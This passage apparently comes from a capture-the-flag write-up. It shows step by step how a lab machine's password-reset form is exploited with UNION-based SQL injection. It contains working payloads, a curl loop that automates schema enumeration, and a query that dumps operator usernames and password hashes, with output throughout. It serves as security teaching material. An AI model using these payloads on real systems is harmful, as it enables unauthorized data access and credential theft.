 On the fourth test the web page responded with _"Email sent to: a@b.com=>2"_ so this works and the next step is to get information out of the _INFORMATION_SCHEMA_ database with the `CONCAT` command.
```markdown
email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(TABLE_SCHEMA, ":", TABLE_NAME, ":", COLUMN_NAME, "a@b.com") FROM INFORMATIoN_SCHEMA.COLUMNS WHERE TABLE_SCHEMA != 'Information_Schema' LIMIT 1-- -
```

This outputs the first column of the table:
```markdown
Email sent to: supercms:groups:grpida@b.com=>2
```

Getting the column names with the `OFFSET` command:
```markdown
email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(TABLE_SCHEMA, ":", TABLE_NAME, ":", COLUMN_NAME, "a@b.com") FROM INFORMATIoN_SCHEMA.COLUMNS WHERE TABLE_SCHEMA != 'Information_Schema' LIMIT 1 OFFSET 1-- -

# Output
Email sent to: supercms:groups:userida@b.com=>2

(...) OFFSET 2

#Output:
Email sent to: supercms:liense:ida@b.com=>2

(...) OFFSET 3
#Output:
Email sent to: supercms:liense:license_keya@b.com=>2

(...)
```

As there can be a lot of rows, it is good to automate this process.
```bash
for i in $(seq 0 100); do
    payload="email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(TABLE_SCHEMA, ':', TABLE_NAME, ':', COLUMN_NAME, 'a@b.com') FROM INFORMATIoN_SCHEMA.COLUMNS WHERE TABLE_SCHEMA != 'Information_Schema' LIMIT 1 OFFSET $i-- -"
    curl -s -d "$payload" http://10.10.10.31/cmsdata/forgot.php | grep -o '[^ ]\*@b.com'
done
```

Output:
```markdown
supercms:groups:grpida@b.com
supercms:groups:userida@b.com
supercms:license:ida@b.com
supercms:license:license_keya@b.com
supercms:operators:ida@b.com
supercms:operators:\__username_a@b.com
supercms:operators:\__password_a@b.com
supercms:operators:emaila@b.com
```

The tables **operators** got columns called _username_ and _password_ so we can use the UNION SQL Injection to output the contents of that:
```markdown
email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(\__username_, ":", \__password_, "a@b.com") FROM supercms.operators LIMIT 1 OFFSET 1-- -

# Output
Email sent to: test1:5f4dcc3b5aa765d61d8327deb882cf99a@b.com=>2

(...) OFFSET 2

#Output:
Email sent to: test2:5f4dcc3b5aa765d61d8327deb882cf99a@b.com=>2
```
